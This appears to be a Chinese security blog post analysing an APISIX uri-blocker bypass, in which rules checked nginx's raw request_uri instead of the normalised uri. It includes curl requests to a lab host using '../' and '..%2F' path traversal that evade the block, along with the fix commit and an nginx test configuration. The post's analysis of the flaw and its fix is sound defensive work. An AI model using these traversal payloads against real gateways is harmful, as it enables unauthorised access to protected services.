

nginx下request_uri的normalized问题
看到apisix因为request_uri导致的权限绕过在印象中nginx对于uri是做过强标准化的，不会出现类似tomcat、spring因解析不一致性引起风险，于是抽时间看了下相关的漏洞及源码
apisix
缺陷代码
uri-blacker.lua1
2
3
4
5
6
7local from = re_find(ctx.var.request_uri, conf.block_rules_concat, "jo")
if from then
if conf.rejected_msg then
return conf.rejected_code, { error_msg = conf.rejected_msg }
end
return conf.rejected_code
end
即获取ctx.var.request_uri后根据用户定义的正则规则conf.block_rules_concat做匹配，匹配成功则抛错。
验证
request1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74root@DESKTOP-DRLOLRT ~/w/nginx-3# curl -vv http://192.168.157.177:9080/protected-service/protected --path-as-is
* Trying 192.168.157.177...
* TCP_NODELAY set
* Connected to 192.168.157.177 (192.168.157.177) port 9080 (#0)
> GET /protected-service/protected HTTP/1.1
> Host: 192.168.157.177:9080
> User-Agent: curl/7.58.0
> Accept: */*
>
< HTTP/1.1 403 Forbidden
< Date: Tue, 07 Dec 2021 14:23:54 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 150
< Connection: keep-alive
< Server: APISIX/2.10.0
<
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
* Connection #0 to host 192.168.157.177 left intact
root@DESKTOP-DRLOLRT ~/w/nginx-3# curl -vv http://192.168.157.177:9080/public-service/../protected-service/protected --path-as-is
* Trying 192.168.157.177...
* TCP_NODELAY set
* Connected to 192.168.157.177 (192.168.157.177) port 9080 (#0)
> GET /public-service/../protected-service/protected HTTP/1.1
> Host: 192.168.157.177:9080
> User-Agent: curl/7.58.0
> Accept: */*
>
< HTTP/1.1 502 Bad Gateway
< Date: Tue, 07 Dec 2021 14:23:59 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 154
< Connection: keep-alive
< Server: APISIX/2.10.0
< X-APISIX-Upstream-Status: 502
<
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>openresty</center>
</body>
</html>
* Connection #0 to host 192.168.157.177 left intact
root@DESKTOP-DRLOLRT ~/w/nginx-3# curl -vv http://192.168.157.177:9080/public-service/..%2Fprotected-service/protected --path-as-is
* Trying 192.168.157.177...
* TCP_NODELAY set
* Connected to 192.168.157.177 (192.168.157.177) port 9080 (#0)
> GET /public-service/..%2Fprotected-service/protected HTTP/1.1
> Host: 192.168.157.177:9080
> User-Agent: curl/7.58.0
> Accept: */*
>
< HTTP/1.1 502 Bad Gateway
< Date: Tue, 07 Dec 2021 14:24:27 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 154
< Connection: keep-alive
< Server: APISIX/2.10.0
< X-APISIX-Upstream-Status: 502
<
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>openresty</center>
</body>
</html>
* Connection #0 to host 192.168.157.177 left intact
log1
2
3
4root@k8s-master ~/a/example# tail -f apisix_log/error.log | grep "uri-blocker.lua:82:"
2021/12/07 14:23:54 [info] 44#44: *4190 [lua] uri-blocker.lua:82: phase_func(): uri: /protected-service/protected, client: 192.168.157.1, server: _, request: "GET /protected-service/protected HTTP/1.1", host: "192.168.157.177:9080"
2021/12/07 14:23:59 [info] 43#43: *4389 [lua] uri-blocker.lua:82: phase_func(): uri: /public-service/../protected-service/protected, client: 192.168.157.1, server: _, request: "GET /public-service/../protected-service/protected HTTP/1.1", host: "192.168.157.177:9080"
2021/12/07 14:24:27 [info] 44#44: *5451 [lua] uri-blocker.lua:82: phase_func(): uri: /public-service/..%2Fprotected-service/protected, client: 192.168.157.1, server: _, request: "GET /public-service/..%2Fprotected-service/protected HTTP/1.1", host: "192.168.157.177:9080"
修复
修复commit
可以看到问题在于request_uri和uri的值使用的问题1
2
3
4
5
6-- To prevent being hacked by untrusted request_uri, here we
-- record the normalized but not rewritten uri as request_uri,
-- the original request_uri can be accessed via var.real_request_uri
api_ctx.var.real_request_uri = api_ctx.var.request_uri
api_ctx.var.request_uri = api_ctx.var.uri .. api_ctx.var.is_args .. (api_ctx.var.args or "")
1 | root@DESKTOP-DRLOLRT ~/w/nginx-3# curl -vv http://192.168.157.177:9080/public-service/../protected-service/protected --path-as-is |
nginx uri_value
apisix会根据config.yaml生成对应的nginx.conf，其中从nginx侧的入口函数为
https://juejin.cn/post/6933768239008874510#heading-201
2
3
4
5location / {
access_by_lua_block {
apisix.http_access_phase()
}
}
即apisix通过lua resty_http获取的uri、request_uri的变量
在nginx侧做相关验证1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30worker_processes 1;
error_log /root/work/logs/error.log debug;
events {
worker_connections 1024;
}
http {
server {
listen 8080;
#location / {
# default_type text/html;
# content_by_lua_block {
# ngx.say("<p>hello, world</p>")
# }
#}
location / {
add_header X-request-uri "$request_uri";
add_header X-uri "$uri";
content_by_lua_block {
local var = require("resty.ngxvar")
local req = var.request()
ngx.say("resty.ngxvar.uri:", var.fetch("uri", req))
ngx.say("resty.ngxvar.request_uri:", var.fetch("request_uri", req))
ngx.say("ngx.var.uri:", ngx.var.uri)
ngx.say("ngx.var.request_uri:", ngx.var.request_uri)
}
}
}
}
request1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23root@DESKTOP-DRLOLRT ~/w/nginx-3# curl -vv http://127.0.0.1:8080/public-service/../protected-service/protected --path-as-is
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /public-service/../protected-service/protected HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.58.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: openresty/1.19.9.1
< Date: Tue, 07 Dec 2021 13:38:44 GMT
< Content-Type: text/plain
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-request-uri: /public-service/../protected-service/protected
< X-uri: /protected-service/protected
<
resty.ngxvar.uri:/protected-service/protected
resty.ngxvar.request_uri:/public-service/../protected-service/protected
ngx.var.uri:/protected-service/protected
ngx.var.request_uri:/public-service/../protected-service/protected
* Connection #0 to host 127.0.0.1 left intact
nginx代码侧处理
nginx接受http请求并做处理的主要函数为1
ngx_http_process_request_line -> ngx_http_read_request_header -> ngx_http_parse_request_line
在ngx_http_parse_complex_uri函数中可以看到对uri相关字段的处理，request_uri为原生请求，而uri为经过处理、编码后的字段
